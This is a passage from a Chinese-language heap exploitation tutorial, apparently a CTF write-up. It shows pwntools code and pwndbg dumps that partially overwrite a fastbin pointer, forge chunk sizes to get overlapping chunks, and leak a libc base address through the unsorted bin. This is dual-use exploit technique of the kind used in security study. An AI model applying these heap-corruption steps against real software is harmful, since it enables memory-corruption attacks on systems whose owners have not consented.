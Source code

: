 当我们编辑 idx0 后，确实已经将其指向idx4了。这里之所以可以成功是因为堆的始终是 4KB 对齐的，所以idx 4的起始地址的第一个字节必然是0x80。

```python
    # edit idx 0 chunk to particial overwrite idx1's fd to point to idx4
    payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
    fill(0, len(payload), payload)
```

修改成功后如下

```shell
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000:	0x0000000000000000	0x0000000000000021
0x55a03ca22010:	0x6161616161616161	0x6161616161616161
0x55a03ca22020:	0x0000000000000000	0x0000000000000021
0x55a03ca22030:	0x000055a03ca22080	0x0000000000000000
0x55a03ca22040:	0x0000000000000000	0x0000000000000021
0x55a03ca22050:	0x0000000000000000	0x0000000000000000
0x55a03ca22060:	0x0000000000000000	0x0000000000000021
0x55a03ca22070:	0x0000000000000000	0x0000000000000000
0x55a03ca22080:	0x0000000000000000	0x0000000000000091
0x55a03ca22090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins 
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22080 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

那么，当我们再次申请两个时，第二个申请到的就是idx 4处的chunk。为了能够申请成功，我们需要确保 idx4 的size 与当前 fastbin 的大小一致，所以，我们得修改它的大小。申请成功后，idx2会指向idx4。

```python
    # if we want to allocate at idx4, we must set it's size as 0x21
    payload = 0x10 * 'a' + p64(0) + p64(0x21)
    fill(3, len(payload), payload)
    allocate(0x10)  # idx 1
    allocate(0x10)  # idx 2, which point to idx4's location
```

之后，如果我们想要将 idx 4 放到 unsorted bin 中的话，为了防止其与top chunk 合并，我们需要再次申请一个chunk。此后再释放 idx4 就会进入 unsorted bin中去了。此时由于 idx2 也指向这个地址，所以我们直接展示他的内容就可以得到unsorted bin的地址了。

```python
    # if want to free idx4 to unsorted bin, we must fix its size
    payload = 0x10 * 'a' + p64(0) + p64(0x91)
    fill(3, len(payload), payload)
    # allocate a chunk in order when free idx4, idx 4 not consolidate with top chunk
    allocate(0x80)  # idx 5
    free(4)
    # as idx 2 point to idx4, just show this
    dump(2)
    p.recvuntil('Content: \n')
    unsortedbin_addr = u64(p.recv(8))
    main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
    log.success('main arena addr: ' + hex(main_arena))
    main_arena_offset = 0x3c4b20
    libc_base = main_arena - main_arena_offset
    log.success('libc base addr: ' + hex(libc_base))
```
